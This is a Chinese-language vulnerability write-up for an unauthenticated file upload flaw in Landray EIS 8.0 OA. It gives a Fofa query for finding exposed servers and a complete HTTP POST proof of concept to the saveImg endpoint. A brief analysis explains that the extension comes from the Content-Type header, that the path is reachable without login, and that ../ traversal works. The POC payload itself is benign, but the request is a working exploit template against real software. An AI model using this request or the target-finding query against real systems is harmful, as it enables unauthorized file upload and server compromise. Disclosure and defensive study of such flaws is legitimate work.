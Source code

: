 ```yaml
---
title: 蓝凌EIS8.0新版前台文件上传漏洞
---
```

# 蓝凌EIS 8.0新版前台文件上传漏洞 

## 漏洞厂商

landray蓝凌   

## 厂商官网

https://www.landray.com.cn/

## 产品

蓝凌智能OA EIS 8.0 

https://www.landray.com.cn/blue?target=zhinengoa

## Fofa语法

```
icon_hash="953405444" 
```

## POC

```
POST /eis/service/api.aspx?action=saveImg HTTP/1.1
Host: x.x.x.x
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/109.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: ASP.NET_SessionId=jh3g1b45deo2ny55kmxl4355; Lang=zh-cn
Upgrade-Insecure-Requests: 1
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryZUtvHzp8FchbbUUn
Content-Length: 483
 
------WebKitFormBoundaryZUtvHzp8FchbbUUn
Content-Disposition: form-data; name="file"filename="test.jpg"
Content-Type: text/html


111
------WebKitFormBoundaryZUtvHzp8FchbbUUn--
```

文件路径`Scripts/plupload/1.txt`

漏洞分析:

`/eis/service/api.aspx`下存在一个`SvaeImg`方法。

当`action=saveimg`时，则进入

![](https://ckcsec.oss-cn-hangzhou.aliyuncs.com/img/image-20240624172207322.png)

一处简单的文件上传漏洞，取file参数的io流。后时间戳+ext变量。

这里的变量取的是`Content-Type`头的`image`/后的内容，由于`web.config`中定义了一些可以未登录访问的路径。

../跨目录绕过

访问 `/eis/service/api.aspx?action=saveImg`

![](https://ckcsec.oss-cn-hangzhou.aliyuncs.com/img/image-20240624172523693.png)
